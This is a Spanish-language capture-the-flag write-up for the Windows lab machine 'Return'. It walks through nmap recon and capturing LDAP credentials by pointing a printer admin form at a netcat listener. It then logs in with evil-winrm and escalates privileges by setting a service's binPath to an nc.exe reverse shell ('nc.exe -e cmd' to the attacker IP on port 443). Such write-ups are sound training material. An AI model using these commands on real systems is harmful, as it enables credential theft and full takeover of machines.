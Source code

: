 ```yaml
---
title: 'CTF - Return WriteUp'
date: '2022-02-11'
tags: ["CTF", "Windows", "ServerOperatorGroupAbusing", "ServiceConfigurationManipulation", "#Import 2022-12-20 21:06"]
draft: false
authors: ['default']
summary: 'Se trata de una máquina CTF de Capture The Flag basada en Windows. La vulnerabilidad explotada es la falta de seguridad en un formulario de registro que permite obtener acceso al sistema y escalar privilegios para obtener la flag.'
images: ["/static/images/uploads/ctf-return/return.webp", "/static/images/uploads/ctf-return/image-7.webp"]
---
```


![](/static/images/uploads/ctf-return/return.webp)

Estamos ante una máquina **Windows**. Esto es algo que deducimos una vez hacemos un Ping para comprobar la conexión que tenemos con ella.


```
❯ ping 10.10.11.108 -c 1
PING 10.10.11.108 (10.10.11.108) 56(124) bytes of data.
64 bytes from 10.10.11.108: icmp_seq=1 ttl=127 time=43.2 ms
```
En la traza ICMP observamos que el TTL es de 127. Las maquinas Windows, en general, tienen un TTL configurado de 128 mientras que las máquinas Linux suelen tener un TTL de 64. En este caso, hasta llegar a la máquina pasamos por un nodo intermediario y por eso el TLL se descuenta en 1 unidad.

Tras un primer escaneo de puertos con NMAP, aparecen muchos de ellos abiertos. Además, en Windows este tipo de escaneos se suele demorar un poco más. Una vez escaneados los puertos abiertos con TCP Syn Scan, trato de sacar el máximo de información posible utilizando scripts básicos de reconocimiento de NMAP, para ver que información nos facilita.


```
nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49679,49682,49694,59851 -sCV -v 10.10.11.108 -oN targeted
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
135/tcp   open  msrpc         Microsoft Windows RPC
...
```
Hay un portal web abierto en el puerto 80 y parece un panel de administración de impresoras. Navegando un poco por la plataforma, veo un formulario de registro.

En estos casos donde el formulario te permite introducir una IP, una buena prueba es ponerte en escucha para ver que información te envía el servidor.

![](/static/images/uploads/ctf-return/image-7.webp)

Cambio la dirección IP a mi equipo y me pongo en escucha en el mismo puerto con netcat.


```
❯ nc -lvp 389
listening on [any] 389 ...
10.10.11.108: inverse host lookup failed: Unknown host
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.108] 59872
0*`%return\svc-printer�
                       1edFg43012!!
```
Parece una contraseña. Me la guardo junto con el usuario *return\svc-printer*.

Además, recuerdo que el puerto RPC estaba abierto. Podría probar a conectarme con [Evil-WinRM](https://github.com/Hackplayers/evil-winrm).


```
❯ evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
Evil-WinRM shell v3.3
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents whoami
return\svc-printer
```
Y listo. Obtenemos la primera flag.


```
*Evil-WinRM* PS C:\Users\svc-printer\documents cat ../desktop/user.txt
6df0ae750542xxxxxxxxxxxxxxxxxxx 
```
El siguiente paso es buscar un método que nos permita escalar privilegios de Administrator. En este punto, un buen comienzo es enumerar los privilegios que dispone el usuario actual.


```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```
[SeLoadDriverPrivilege](https://www.tarlogic.com/es/blog/explotacion-de-la-directiva-cargar-y-descargar-controladores-de-dispositivo-seloaddriverprivilege/) tiene vulnerabilidades conocidas que se podrían explotar, pero voy a continuar buscando información sobre los grupos a los que pertenezco.


```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop net user svc-printer
...
Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```
Confirmamos que estamos en el grupo de *Remote Management Use* (por eso podemos conectarnos con WinRM) y además pertenezco a otros grupos. Me parece interesante *Server Operators* porque tal y como se visualiza en la web de [Microsoft](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators), vemos que tiene capacidad de parar y ejecutar servicios.

Esto es una vulnerabilidad que se puede explotar porque los servicios son capaces de ejecutar binarios en su arranque. De esta forma, sería interesante configurar un servicio que ejecutase *nc.exe* con el fin de entablar una reverse shell a mi máquina atacante.

Lo primero es traer a la máquina Windows el binario *nc.exe*.


```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop upload /home/iocio/Desktop/iocio/HTB/Return/content/nc.exe
```
Y trato de crear el nuevo servicio de Windows.


```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop sc.exe create reverse binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.21 443"
[SC] OpenSCManager FAILED 5:
Access is denied.
```
Parece que por alguna razón no podemos crear servicios. Vamos a intentar cambiar uno existente. Para ello, enumeramos aquellos que ya hay en ejecución.


```
*Evil-WinRM* PS C:\Users\svc-printer\documents services
Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc
```
Tras probar a cambiar varios y ver que no me permite modificarlos, doy con uno que sí.


```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop sc.exe config VMTools binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.21 443"
[SC] ChangeServiceConfig SUCCESS
```
A continuación, pongo en mi máquina netcat en escucha, paro el servicio y lo vuelvo a arrancar.


```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop sc.exe stop VMTools
*Evil-WinRM* PS C:\Users\svc-printer\Desktop sc.exe start VMTools
```
Recibimos la consola por el otro lado.


```
C:\Windows\system32whoami  
nt authority\system
C:\Windows\system32type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
f8fexxxxxxxxxxxxxxxxxxxxxxx
```
Obtenemos la flag y terminamos la máquina.

